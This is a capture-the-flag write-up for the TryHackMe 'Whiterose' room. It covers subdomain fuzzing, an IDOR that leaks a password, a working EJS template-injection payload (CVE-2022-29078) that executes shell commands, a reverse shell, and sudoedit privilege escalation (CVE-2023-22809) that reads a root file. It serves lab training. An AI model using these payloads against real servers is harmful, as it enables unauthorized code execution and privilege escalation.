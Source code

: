 # thm: Whiterose CVE-2022–29078, CVE-2023-22809

https://tryhackme.com/room/whiterose

## Enumeration

The first step is to perform basic enumeration using Nmap. 

```
$ nmap <target ip> -oN output.txt
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
7103/tcp filtered unknown
```

add domain to /etc/hosts
```
$ sudo nano /etc/hosts
$ cat /etc/hosts
<target ip> cyprusbank.thm
```

to get further lets do subdomain brute force with ffuf.
```
$ ffuf -u http://<target ip>/ -H "Host:FUZZ.cyprusbank.thm" -w ~/Downloads/
www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
```

from ffuf output shows an interesting subdomain called admin. `sudo nano /etc/hosts` again and change `cyprusbank.thm` to `admin.cyprusbank.thm`.

Login with the given credential. `Olivia Cortez:olivi8` 

## Exploitation

After ran a manual review of exposed endpoints and client-side logic, found some interesting endpoint. On `http://admin.cyprusbank.thm/messages/?c=5` the c parameter is vulnerable to **insecure direct object reference (IDOR)**. By changing the parameter to c=10, a message containing Gayle Bev’s password is exposed, resulting in unauthorized disclosure of sensitive credentials.
```
Gayle Bev: Of course! My password is '[REDACTED]'
```

After logging in with the provided credentials, Tyrell Wellick’s phone number was accessible, exposing sensitive personal information.

While intercepting the request with Burp Suite, modifying the password parameter triggered an error that exposed the use of EJS (Embedded JavaScript) templates in the application. 

    http://admin.cyprusbank.thm/settings

Request:
```
POST /settings HTTP/1.1
Host: admin.cyprusbank.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://admin.cyprusbank.thm
Connection: keep-alive
Referer: http://admin.cyprusbank.thm/settings
Cookie: connect.sid=s%3AJOexcjMZ8sf5FRIGKw1hQqE8qcQ_Auti.H9cKb7IHVdDLa6bOzxOfYV9UlEHcVyBC6ounhAxKaXY
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=test&password1=test
```

Responce:
```
HTTP/1.1 500 Internal Server Error
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 15 Sep 2025 08:12:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1665
Connection: keep-alive
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: /home/web/app/views/settings.ejs:14<br>
```
This ReferenceError message is not normal behavior for a production website. Normally, a server should not show internal file paths or stack traces to users. This error message reveals that the server is executing JavaScript.

### What is EJS?

So, let’s take a moment to get deeper into EJS(Embedded JavaScript).

EJS is a server-side template engine for Node.js that generates HTML dynamically by filling placeholders with real data. 

What happens is EJS templates can run JavaScript on the server side and EJS uses <% %> to run code and <%= %> to output values. Normally, this is safe if only the server controls what code runs. But the server uses untrusted input in templates

If the application takes user input (like a query parameter or form field) and inserts it into the template without sanitizing or escaping it, the user can inject their own JavaScript.

Server executes user-provided code because Node.js runs the template on the server, any JavaScript in the input is executed.


It can lead to Server-Side Template Injection (SSTI), allowing attackers to execute arbitrary code on the server. This allows attackers to run commands like `global.process.mainModule.require('child_process').execSync('id')`. This loads Node.js’s child_process module and runs the id command, printing the server’s current user information. When executed, this confirms Remote Code Execution (RCE), demonstrating that the application unsafely evaluates user input in its EJS templates.

The file `/home/web/app/views/settings.ejs` appears to be an EJS template in a Node.js/Express.js application, potentially exposing the application to CVE-2022-29078, a server-side template injection vulnerability that could allow remote code execution.

### CVE-2022-29078: EJS Server Side Template Injection RCE 

https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

SSTI payload: 
```
name=test&password=test&settings[view options][outputFunctionName]=x; return global.process.mainModule.require('child_process').execSync('id');//
```
Responce:
```
uid=1001(web) gid=1001(web) groups=1001(web)
```

Next, visit revshells.com and generated a reverse shell payload. The attacker’s IP address (tun0) and a port number (default) were specified, with the shell type set to nc and the payload encoded using URL encoding.
```
nc -lnvp 5555
Listening on 0.0.0.0 5555
```
Once the payload was sent, a reverse shell connection was established, allowing access to the `user.txt` file.
```
Connection received on [REDACTED]
sh: 0: can't access tty; job control turned off
$ whoami
web
$ pwd
/home/web/app
$ ls
components
index.js
node_modules
package.json
package-lock.json
routes
static
views
$ cd 
$ ls
app
user.txt
$ cat user.txt
THM{[REDACTED]}
```
```
name=dfsdf&settings[view options][outputFunctionName]=x; return global.process.mainModule.require('child_process').execSync('cd ..; cat user.txt');//
```
## Privilege Escalation

### CVE-2023-22809

```
$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
$ sudoedit -V
Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1
```
### Reference
Korean: https://www.skshieldus.com/download/files/download.do?o_fname=EQST%20insight_Research%20Technique_202303.pdf&r_fname=20230310141202990.pdf

English: https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf

Looks like the target's sudoedit version has CVE.
```
$ export EDITOR="vi -- /root/root.txt"
$ echo $EDITOR
vi -- /root/root.txt
$     sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm


THM{[REDACTED]}
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
"/var/tmp/rootZWkIXB0v.txt" 1L, 21C                           1,1           All
```

